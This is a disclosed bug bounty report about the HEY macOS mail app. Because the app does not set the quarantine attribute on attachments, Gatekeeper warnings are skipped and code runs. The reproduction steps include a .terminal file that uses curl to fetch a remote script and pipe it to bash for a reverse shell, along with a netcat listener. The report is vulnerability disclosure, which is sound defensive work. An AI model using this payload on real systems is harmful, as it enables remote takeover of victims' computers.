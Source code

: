 # Lack of quarantine macOS attribute(com.apple.quarantine) leads multiple issues including RCE

## Report Details
- **Report ID**: 1019389
- **URL**: https://hackerone.com/reports/1019389
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-10-26T22:13:23.947Z
- **Disclosed**: 2021-04-22T05:59:01.483Z

## Reporter
- **Username**: hensis
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: basecamp

## Vulnerability Information
Hi, basecamp team.

HEY macOS client does not properly validate file uploads on its macOS inbox. That is because, by not setting the `com.apple.quarantine` attribute in the metadata of an executable file when it is uploaded, you allow the file to be executed on macOS without being checked by Gatekeeper.

Basically, the bug here is that when sending an executable as a message, when opening it, the "file cannot be opened because it is from an unidentified developer" doesn't pop-up, the executable just gets executed

As a PoC(i prepared a video) I used a `.terminal` file, containing a backdoor payload.

# Steps-to Reproduce

1) Create a .terminal file with the following code:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
	<key>CommandString</key>
	<string>curl -Ls https://git.io/vXd2N | bash -s localhost 80 > exploit.sh;</string>
	<key>ProfileCurrentVersion</key>
	<real>2.0600000000000001</real>
	<key>RunCommandAsShell</key>
	<false/>
	<key>name</key>
	<string>exploit</string>
	<key>type</key>
	<string>Window Settings</string>
</dict>
</plist>
```
2) Send a mail with that file as an attachment
3) open another terminal window and execute: `nc -nvl 80`
4) As a victim download and open `.terminal` file, this will gain you a shell from the terminal window were you executed `nc -nvl 80`. As you can see, there is no alert for running Executable

# PoC video

{F1052935}

# For Further Info

for further info check the following reports from the person who found this vulnerability:

- https://hackerone.com/reports/470637
- https://hackerone.com/reports/430463

## Impact

An attacker can execute code on the victim's computer via the HEY macOS app.

## Attachments
- RCEHey.mp4
